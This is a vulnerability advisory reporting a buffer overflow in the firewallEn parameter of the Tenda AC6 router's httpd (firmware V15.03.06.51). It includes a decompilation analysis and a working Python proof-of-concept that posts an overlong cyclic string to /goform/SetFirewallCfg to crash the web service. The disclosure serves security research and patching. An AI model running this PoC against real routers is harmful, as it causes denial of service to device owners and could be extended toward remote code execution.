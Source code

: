 # Information



Vendor of the products:  Shenzhen Jixiang Tenda Technology Co., Ltd.

Vendor's website:  [Homepage_Tenda Global(English)](https://www.tendacn.com/)

Reported by:   b55t4ck(2640807724@qq.com)

Affected products: Tenda  AC6

Affected firmware version: v2.0_V15.03.06.51

Firmware download address:  https://www.tendacn.com/material/show/103794



# Overview

Tenda AC6 is a wireless router from China's Tenda company.

During analysis of the /bin/httpd binary, it was discovered that the firewallEn parameter in the formSetFirewallCfg function directly accepts client data through websGetVar without any length validation. This vulnerability allows users to crash the program by constructing overly long strings, rendering it inoperable, and also enables attackers to craft carefully prepared payloads to achieve arbitrary command execution.

# Vulnerability details

Analysis of the /bin/httpd binary in IDA revealed that after obtaining values from user input through the webGetVar function, the program calls the strcpy function at line 55 to directly copy the user-supplied firewallEn parameter content into the firewall_buf variable. Since firewall_buf is a fixed-length array and the program lacks input length restrictions, this results in a buffer overflow vulnerability.

![image-20250831182316062](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508311823079.png)

![image-20250831182213556](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508311822585.png)



Due to the absence of corresponding symbol tables and the target device, it is not possible to perform deeper debugging using GDB in this context. Otherwise, it would be feasible to construct shellcode or ROP chains to obtain shell access, potentially causing more severe security implications.

# POC

```python
from pwn import *
import requests

url = "http://192.168.1.100/goform/SetFirewallCfg"
cookie = {"Cookie": "password=b55t4ck"}


data = {
	"firewallEn":cyclic(1024)
        }


headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}


try:
    response = requests.post(url, cookies=cookie, data=data, headers=headers)
    response = requests.post(url, cookies=cookie, data=data, headers=headers)
    print(response.text)
except requests.exceptions.RequestException as e:
    print(f"Request failed: {e}")


```

# Effect Demonstration

After executing the corresponding Python script, the program crashes as expected.


![image-20250831182527415](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508311825463.png)
